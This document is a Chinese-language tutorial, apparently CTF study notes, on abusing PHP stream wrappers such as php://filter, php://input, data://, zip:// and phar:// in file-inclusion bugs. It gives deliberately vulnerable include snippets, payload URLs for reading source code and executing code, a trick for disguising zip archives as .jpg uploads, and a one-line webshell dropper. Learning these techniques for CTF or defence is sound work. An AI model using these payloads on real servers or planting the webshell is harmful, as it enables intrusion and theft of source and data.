

## PHP伪协议

### PHP中支持的伪协议

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流(I/O streams)
zlib:// — 压缩流
data:// — 数据(RFC 2397)
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

### file://协议

>PHP.ini:
>
>file:// 协议在双off(allow_url_fopen和allow_url_include)的情况下也可以正常使用

`file://`用于访问本地文件系统,在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

```php
<?php
if(isset($_GET['page']))
{
    include $_GET['page'];
}
?>
```

`file:// [文件的绝对路径和文件名]`

example:`http://localhost:37917/?page=file:///var/www/html/phpinfo.php`

### php://协议

`php://filter`在双off的情况下也可以正常使用

`php://input,php://stdin,php://memory`和`php://temp`,不需要开启`allow_url_fopen`,需要开启`allow_url_include`

`php://`访问各个输入/输出流,在CTF中经常使用的是`php://filter`和`php://input`,`php://filter`用于读取源码,`php://input`用于执行php代码

#### php://filter

`php://filter`是一种元封装器,设计用于数据流打开时的筛选过滤应用

这对于一体式的文件函数非常有用,类似`readfile()`,`file()`和`file_get_contents()`,在数据流内容读取之前没有机会应用其他过滤器

```
resource=<要过滤的数据流>     这个参数是必须的,它指定了你要筛选过滤的数据流
read=<读链的筛选列表>         该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
write=<写链的筛选列表>    该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链
```

可以运用多种过滤器(字符串/转换/压缩/加密)

例如平时我们用来任意文件读取的payload`php://filter/read=convert.base64-encode/resource=upload.php`

这里读的过滤器为`convert.base64-encode`,就和字面上的意思一样,把输入流`base64-encode`,`resource=upload.php`,代表读取upload.php的内容

这样就可以以base64编码的方式读取文件源代码

[过滤器](https://www.php.net/manual/zh/filters.php)

```php
<?php  
$filename=$_GET["a"];  
$data="ASDF";
file_put_contents($filename, $data);  
?>
```

`http://localhost:32989/?a=php://filter/write=string.tolower/resource=test.txt`

test.txt:`asdf`

---

```php
<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?>
```

`file_get_contents()`的`$filename`参数不仅仅为文件路径,还可以是一个URL(伪协议)

`http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

index.php的内容以base64编码的方式显示出来

---

```php
<?php  
$filename=$_GET['a'];
include("$filename");
?>
```

`http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

`http://localhost:32989/?a=php://filter/convert.base64-encode/resource=index.php`

同样可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量`$filename`会被当作正常变量执行,而单引号包含的变量则会被当作字符串执行

```php
<?php  
$aa=1;
echo "$aa";
echo "<br>";
echo '$aa';
?>
```

```
1
$aa
```

#### php://input

`php://input`是个可以访问请求的原始数据的只读流,可以读取到post没有解析的原始数据,将post请求中的数据作为PHP代码执行,因为它不依赖于特定的`php.ini`指令

>`enctype=”multipart/form-data”`的时候`php://input`是无效的

```php
<?php  
echo file_get_contents($_GET["a"]);  
?>
```

```
POST /?a=php://input HTTP/1.1
Host: localhost:32989
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

asdf
```

```
HTTP/1.1 200 OK
Date: Tue, 19 Jan 2021 13:53:35 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.3.24
Content-Length: 4
Connection: close
Content-Type: text/html; charset=UTF-8

asdf
```

---

```php
<?php
include($_GET['a']);
?>
```

当`allow_url_include=on`的时候,就可以造成任意代码执行



当该目录具有可写权限时,可以上传webshell

`<?php fputs(fopen('.1.php','w'),'<?php @eval($_POST["pass"]); ?>'); ?>`

#### php://output

是一个只写的数据流,允许你以print和echo一样的方式写入到输出缓冲区(即直接在网页中显示,而不是写入到文件)

```php
<?php  
$code=$_GET["a"];  
file_put_contents($code,"test");
?>  
```

`http://localhost:32989/?a=php://output`

### data://

data:资源类型;编码,内容

数据流封装器

当`allow_url_include`打开的时候,任意文件包含就会成为任意命令执行,`data://`协议必须在双on时才能正常使用

```php
<?php
include($_GET["a"]);
?>
```

`http://localhost:32989/?a=data://text/plain,%3C?php%20phpinfo();%20?%3E`

### zip://,bzip2://,zlib://协议

`zip://`,`bzip2://`,`zlib://`协议在双off的情况下也可以正常使用

3个封装协议,都是直接打开压缩文件

`compress.zlib://file.gz` - 处理的是 '.gz' 后缀的压缩包

`compress.bzip2://file.bz2` - 处理的是 '.bz2' 后缀的压缩包

`zip://archive.zip#dir/file.txt` - 处理的是 '.zip' 后缀的压缩包里的文件

`zip://`,`bzip2://`,`zlib://`均属于压缩流,可以访问压缩文件中的子文件,更重要的是不需要指定后缀名

#### zip://协议

使用方法:

`zip://archive.zip#dir/file.txt`

`zip://[压缩文件绝对路径]#[压缩文件内的子文件名]`

要用绝对路径+url编码#即`%23`

> 测试

新建一个名为zip.txt的文件,内容为`<?php phpinfo();?>`,然后压缩为名为test.zip的zip文件

如果可以上传zip文件则上传zip文件,若不能则重命名为test.jpg后上传

其他几种压缩格式也可以这样操作

更名为jpg

payload:`http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt`

### bzip2://协议

使用方法:

`compress.bzip2://file.bz2`

相对路径也可以

测试

用7-zip生成一个bz2压缩文件

pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`

或者文件改为jpg后缀

`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`

#### zlib://协议

同上

### phar://协议

`phar://`协议与`zip://`类似,同样可以访问zip格式压缩包内容

```php
<?php
include($_GET["a"]);
?>
```

`http://localhost:32989/?a=phar:///var/www/html/phpinfo.zip/phpinfo.php`

`http://localhost:32989/?a=phar://phpinfo.zip/phpinfo.php`

## 死亡绕过

>todo